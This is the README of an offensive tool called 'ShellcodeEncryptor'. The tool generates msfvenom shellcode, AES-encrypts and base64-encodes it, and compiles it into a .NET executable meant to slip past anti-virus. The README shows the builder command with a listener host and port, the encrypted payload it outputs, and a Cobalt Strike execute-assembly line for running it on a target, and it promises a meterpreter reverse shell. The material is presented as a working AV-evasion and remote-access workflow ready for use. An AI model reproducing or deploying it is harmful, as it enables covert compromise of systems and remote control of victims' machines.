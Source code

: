 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box:
```
root@kali:~# ./launcher.py --lport 4444 --lhost 192.168.1.109 --key atomicritual --filename boom.exe
[+] Generating MSFVENOM payload...
[+] Generating encryptor.cs file...
[+] Compiling the encryptor...
[+] Running the encryptor...
j1y53uhGm57pz49cJPlsa8CdtciBnIJZpcgcK09jWiffpDtQ+1YJheKTBoLGyLStkoA4pcEcEWA+QF1X0wfJ/SYnrIOelXxLWP86BLe0Doz54euNBetYsReSynQ5ibQjY1CgHntgkZ/sXjFNjpVAyOUVFZjaDlV/upLGaNWUu25vHs80R2IDdV5kn66CSc4/mcfkRhhFC7Y9xNtPuDihF7yRI+HJrlqfoDuo+fI5I20UqWKWkaejJMpgicChzE9EuulQtxAZkqwxPBoCmSkFYm9hVr8OWlWFZj46cRO3lHp0y7Tqg/KgxMdr/59CK9cLzIqNFOBJxsuyVZTxa+MKGXbVF3BhzECpHFTJ/lQYYb2P5emT9Kv9kFPaehOqn5SOXn61FtrkuR24MhCMhatIqVhrzS5phlkebIc6tf4ieee1BnHe262FWBAVm8N5HJ7HoFN+ZASfkGuPL5yqiz10Ew==
[+] Generating launcher.cs file...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./boom.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/boom.exe
```

Hopefully you will have a nice meterpreter shell.

# Note

The .cs files are provided as a reference.
